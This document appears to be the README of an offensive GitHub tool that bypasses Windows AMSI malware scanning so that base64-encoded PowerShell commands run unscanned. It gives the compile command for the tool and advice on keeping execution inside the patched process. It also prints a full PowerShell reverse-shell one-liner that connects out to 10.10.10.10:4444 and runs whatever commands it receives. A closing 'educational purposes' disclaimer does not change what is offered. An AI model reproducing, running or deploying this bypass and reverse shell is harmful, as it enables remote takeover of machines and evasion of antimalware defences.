 # AmsiBypass-and-CommandExecution

## Demo Video

 
https://user-images.githubusercontent.com/89106058/232936480-b0e4e0d8-d435-449c-93c7-a3e8a150027e.mp4


## Compilation command

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important

- You must check that the commands contained in base64 belong exclusively to PowerShell to ensure their correct execution.
- You should always try to use Invoke-Expression to make the command run in the patched powershell to avoid creating new powershell instances that are not patched.
- At the moment it only works for Windows 10.

An example of a one-liner that contains only PowerShell commands and can be base64 encoded:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```

Finally, I am not responsible for what you do with the code, this is purely for educational purposes.
